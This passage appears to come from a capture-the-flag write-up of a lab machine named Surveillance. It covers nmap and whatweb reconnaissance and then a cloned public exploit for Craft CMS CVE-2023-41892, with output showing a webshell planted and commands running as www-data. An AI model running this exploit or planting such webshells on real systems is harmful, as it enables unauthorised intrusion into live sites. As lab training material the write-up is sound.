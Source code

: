 > [My used arguments for nmap](http://gabrielgonzalez211.github.io/blog/nmap-arguments.html)

We see the port 22 and 80. Also, we have the domain surveillance.htb so I will add it to the /etc/hosts. Since we don't have credentials because we are in the recon phase, let's enumerate the port 80.

## Web enumeration

In this step, I will launch whatweb to recognize a little bit the web.

```plaintext
❯ whatweb http://surveillance.htb
http://surveillance.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@surveillance.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.245], JQuery[3.4.1], Script[text/javascript], Title[Surveillance], X-Powered-By[Craft CMS], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

We can see that is powered by Craft CMS and if we look in the source page of the web we can see that it's version 4.4.14:

![4.4.14](/assets/images/Surveillance/version-4.4.14.png)

Now if we search in google for exploits for this version, we can see [this page](https://github.com/Faelian/CraftCMS_CVE-2023-41892) that has a exploit written in python which we can run to obtain RCE:

```plaintext
❯ git clone https://github.com/Faelian/CraftCMS_CVE-2023-41892
Cloning into 'CraftCMS_CVE-2023-41892'...
remote: Enumerating objects: 16, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 16 (delta 2), reused 9 (delta 0), pack-reused 0
Receiving objects: 100% (16/16), 82.87 KiB | 684.00 KiB/s, done.
Resolving deltas: 100% (2/2), done.
❯ cd CraftCMS_CVE-2023-41892
❯ ls
craft-cms.py  exploit.png  README.md
❯ python3 craft-cms.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> whoami
www-data

>
```
